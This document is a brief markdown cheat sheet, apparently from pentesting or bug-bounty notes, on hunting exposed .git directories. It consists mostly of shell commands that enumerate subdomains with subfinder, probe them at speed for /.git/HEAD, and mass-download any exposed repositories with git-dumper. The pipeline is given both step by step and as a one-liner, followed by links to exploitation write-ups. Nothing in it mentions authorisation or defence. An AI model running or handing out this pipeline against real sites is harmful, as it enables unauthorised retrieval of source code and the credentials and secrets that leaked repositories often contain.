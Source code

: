 # How to Hunt for Exposed .git Dorectories

```bash
echo example.com | subfinder -all -o subs.txt

cat subs.txt | httpx-toolkit -path /.git/HEAD -silent -mr "refs/heads" -rl 500 | tee git.txt

cat git.txt | cut -d '/' -f1,2,3,4 | while read url; do git-dumper $url git-dumper/$url; done


```

One Liner
```bash
echo example.com | subfinder -all | httpx-toolkit -path /.git/HEAD -silent -mr "refs/heads" -rl 500 | cut -d '/' -f1,2,3,4 | while read url; do git-dumper $url git-dumper/$url; done
```

Resources
- (Web security - exposed .git folder in production)[https://medium.com/smallcase-engineering/web-security-exposed-git-folder-in-production-51ad9484dee0]
- (Git Exposed - How to Identify and Exploit)[https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37]
- (Red Book - Exposed Git Repositories)[https://github.com/v4resk/red-book/blob/main/web/web-vulnerabilities/server-side/exposed-git-repositories.md]
